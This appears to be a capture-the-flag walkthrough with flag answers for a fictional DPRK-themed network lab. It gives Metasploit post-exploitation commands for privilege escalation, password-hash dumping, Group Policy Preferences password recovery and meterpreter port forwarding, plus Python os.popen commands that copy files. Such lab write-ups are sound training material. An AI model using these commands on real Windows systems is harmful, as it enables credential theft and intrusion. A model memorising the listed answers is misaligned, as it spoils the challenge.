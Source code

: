 You should get a new session.  Connect to it and run:

<pre>getsystem
run post/windows/gather/hashdump</pre>

Hash is c7823c16ddd435c49decf92a8d54058f

===Recon 9===
What is local admin password (in clear text)?

Password: i_see_ur_cpassword

<pre>use post/windows/gather/credentials/gpp
set session 1
set domains DPRK
exploit</pre>

==Developer==

===Developer 2===
What is the application running on port 80 of the developer's machine?

Jupyter

meterpreter > portfwd add -l 8080 -p 80 -r 192.168.100.15

Open a web browser and go to localhost:8080

===Developer 3===
What is the full path to the tlc.py file shown in Jupyter?

C:\Users\lee.tonghyon\Projects\tlc_jupyter\code

Open a Jupyter notebook and run this: 

<pre>import os
print os.getcwd()</pre>

===Developer 4===
What is the MD5 of the zip containing the most recent launch code release?

8bed361cf06ae70c2078e136d6f35aa5

Run this in the python notebook:

<pre>import os
import sys
import subprocess

#print os.popen("dir C:\\Users\\lee.tonghyon\\Documents").read()
print os.popen("copy C:\\Users\\lee.tonghyon\\Documents\\TLC_release_v1.2.zip C:\\Users\\lee.tonghyon\\Projects\\tlc_jupyter\\code").read()</pre>

===Developer 5===
What is the domain name of the production MQTT endpoint?

mqtt.dprk.ctf

Unzip the release, look at the config file.

===Developer 6===
enter a valid turret move command payload using the latitude and longitude coordinates from the first test launch location found on the PLANNER machine.
